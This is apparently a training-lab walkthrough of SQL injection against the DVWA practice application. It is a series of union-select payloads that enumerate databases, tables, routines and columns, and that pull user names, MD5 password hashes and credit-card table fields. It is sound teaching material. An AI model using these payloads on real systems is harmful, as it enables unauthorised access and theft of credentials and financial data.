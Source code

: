 Again demonstrates joining two queries with the union command. Both commands below are equivalent:

`' or 0=1 union select null, database() #`

`' union select null, database() # `

### Show all tables in the database

**Note**: the page's query is designed to return two fields, so we request `null` as the first field in our injection.

`' and 1=0 union select null, table_name from information_schema.tables #`

### Show all routines in the database

Routines are SQL statements that can be invoked periodically or by some operation. Common routines may include updating a password or creating a new entry in a table tracking login times and IP addresses.

`' and 1=0 union select null, routine_name from information_schema.routines #`

{% include lab_question.html question='According to the DVWA team, who is the best college basketball team?' %}

### Show all databases and tables

`' and 1=0 union select table_name, table_schema from information_schema.tables #`

### Display all the columns fields in the `information_schema` `user` table 

The "surname" field in the rendered HTML result displays the field names of the database.

`' and 1=0 union select null, column_name from information_schema.columns where table_name = 'users' #`

### Display the user, password column 

Display the user, password column field contents in the `information_schema` user table. Reveals MD5 password hashes that then can be googled to reverse.

`' and 1=0 union select user, password from users #`

### Display firstname, lastname, username, password (all on one line)

`' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #`

### List all columns in the ‘credit_cards’ table. 

Display all the columns fields in the information_schema ‘credit_cards’ table. 

The "surname" field in the rendered HTML shows these column fields.

`' and 1=0 union select null, column_name from information_schema.columns where table_name = 'credit_cards' #`
